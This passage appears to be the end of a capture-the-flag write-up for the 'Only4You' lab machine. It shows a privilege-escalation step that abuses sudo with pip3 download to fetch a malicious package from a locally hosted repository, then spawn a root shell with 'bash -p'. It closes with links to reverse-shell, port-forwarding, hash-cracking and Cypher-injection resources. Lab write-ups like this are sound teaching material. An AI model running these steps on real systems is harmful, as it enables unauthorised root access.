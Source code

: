 when everything is complete, we can download our exploit using `sudo` with following command:

```bash
sudo /usr/bin/pip3 download http\://127.0.0.1\:3000/bunnys/exploit/raw/master/this_is_fine_wuzzi-0.0.1.tar.gz
```

then execute `bash -p` and you will be root in the system.

![](/assets/img/only4you/21.png)


# Refferencess

```console
https://www.revshells.com/
https://exploit-notes.hdks.org/exploit/database/neo4j-pentesting/
https://exploit-notes.hdks.org/exploit/network/port-forwarding/port-forwarding-with-chisel/
https://crackstation.net/
https://github.com/wunderwuzzi23/this_is_fine_wuzzi/tree/main
https://book.hacktricks.xyz/pentesting-web/sql-injection/cypher-injection-neo4j
```